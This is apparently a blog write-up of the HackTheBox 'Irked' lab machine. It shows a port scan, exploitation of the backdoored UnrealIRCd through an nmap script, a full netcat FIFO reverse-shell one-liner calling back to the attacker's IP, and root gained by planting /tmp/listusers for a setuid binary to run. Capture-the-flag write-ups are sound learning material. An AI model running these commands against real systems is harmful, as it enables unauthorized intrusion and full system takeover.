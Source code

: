 ```yaml
---
layout: post
title:  "HTB: Irked"
date:   2021-03-14 20:00:00 +1100
category: hacking
---
```


## Irked
Irked was next after Shocker; I went in blind.

## Ports
This box had four unusual ports and no standard ports. We had:

1. 6697/tcp  open  irc     UnrealIRCd
2. 8067/tcp  open  irc     UnrealIRCd
3. 46013/tcp open  status  1 (RPC #100024)
4. 65534/tcp open  irc     UnrealIRCd

So it's pretty much just **UnrealIRCd**, whatever that is.

## Whatever that is
According to wikipedia:

>UnrealIRCd is an open-source IRC daemon, originally based on DreamForge, and is available for Unix-like operating systems and Windows.

The wikipedia entry also notes:

>The tarball of version 3.2.8.1, from November 2009 to June 12, 2010, contained a trojan that allowed people to execute commands with the privileges of the user running the daemon, regardless of any user restrictions. The problem was fixed - the current tarball download is not suspected to contain a trojan.

Hmmmm. Googling for the exploit reveals an [nmap script](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html) that could be useful. I try it with a ping:

``
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping 10.10.14.10' irked.htb
``

Success!

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/irked]
└─# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:27:05.202341 IP 10.10.14.10 > irked.htb: ICMP echo request, id 54890, seq 0, length 8
01:27:05.202579 IP 10.10.14.10 > irked.htb: ICMP time stamp query id 37197 seq 0, length 20
01:27:05.443113 IP irked.htb > 10.10.14.10: ICMP echo reply, id 54890, seq 0, length 8
# etc
{% endhighlight %}

Now it's just a matter of finding a shell payload that works. This one does:

``
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f' irked.htb
``

But it's the only one I could get to work.

## Privesc
This was pretty easy (well, so was the foothold). Linpeas pointed out a binary, which I took a look at in Ghidra:

{% highlight c %}
{
  puts("This application is being devleoped to set and test user permissions");
  puts("It is still being actively developed");
  system("who");
  setuid(0);
  system("/tmp/listusers");
  return 0;
}
{% endhighlight %}

Here's the privesc; it's just about easier to show it then write it out:

{% highlight shell %}
──(root💀kali)-[/opt/htb/irked]
└─# nc -nvlp 1234                                                                                                                                                             1 ⨯
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.117] 51835
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
ircd@irked:~/Unreal3.2$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-03-14 05:02 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:~/Unreal3.2$ printf 'sh\n' >> /tmp/listusers
printf 'sh\n' >> /tmp/listusers
ircd@irked:~/Unreal3.2$ chmod +x /tmp/listusers 
chmod +x /tmp/listusers
ircd@irked:~/Unreal3.2$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-03-14 05:02 (:0)
# id;hostname
id;hostname
uid=0(root) gid=1001(ircd) groups=1001(ircd)
irked
{% endhighlight %}

Between this nmap script and another one I saw yesterday about enumerating wordpress plugins, there is more to NSE than I have been used to using.
